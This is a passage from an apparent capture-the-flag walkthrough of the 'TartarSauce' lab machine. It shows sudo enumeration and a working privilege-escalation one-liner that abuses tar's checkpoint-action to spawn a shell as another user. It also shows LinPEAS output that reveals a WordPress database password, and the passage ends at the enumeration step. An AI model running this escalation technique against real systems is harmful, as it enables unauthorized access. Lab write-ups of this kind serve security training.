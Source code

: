 I got `www-data`'s shell.



# Shell as `onuma`

### Enumeration

```bash
$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Current user can run `tar` command as `onuma` without password.
According to `gtobins`, there's a code snippet to spawn a shell as `onuma`.

### Privilege Escalation to `onuma`

```shell
$ sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names

id
uid=1000(onuma) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)
whoami
onuma
```



# Shell as `root`

### Enumeration

Let's run `LinPEAS` for enumeration.

```bash
╔══════════╣ Searching passwords in config PHP files
/var/www/html/webservices/wp/wp-admin/setup-config.php: $pwd = trim( wp_unslash( $_POST[ 'pwd' ] ) );
/var/www/html/webservices/wp/wp-admin/setup-config.php: define('DB_PASSWORD', $pwd);
/var/www/html/webservices/wp/wp-admin/setup-config.php: define('DB_USER', $uname);
/var/www/html/webservices/wp/wp-config.php:define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
/var/www/html/webservices/wp/wp-config.php:define('DB_USER', 'wpuser');



╔══════════╣ System timers
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#timers     
NEXT                         LEFT          LAST                         PASSED       UNIT                         ACTIVATES
Tue 2025-03-04 04:09:13 EST  1min 24s left Tue 2025-03-04 04:04:13 EST  3min 35s ago backuperer.timer             backuperer.service
Tue 2025-03-04 06:07:22 EST  1h 59min left Tue 2025-03-04 03:39:01 EST  28min ago    apt-daily-upgrade.timer      apt-daily-upgrade.service                                               
Tue 2025-03-04 08:56:42 EST  4h 48min left Tue 2025-03-04 03:39:01 EST  28min ago    apt-daily.timer              apt-daily.service                                                       
Wed 2025-03-05 03:54:05 EST  23h left      Tue 2025-03-04 03:54:05 EST  13min ago    systemd-tmpfiles-clean.timer systemd-tmpfiles-clean.service                                          
n/a                          n/a           n/a                          n/a          snapd.refresh.timer                                                                                  
```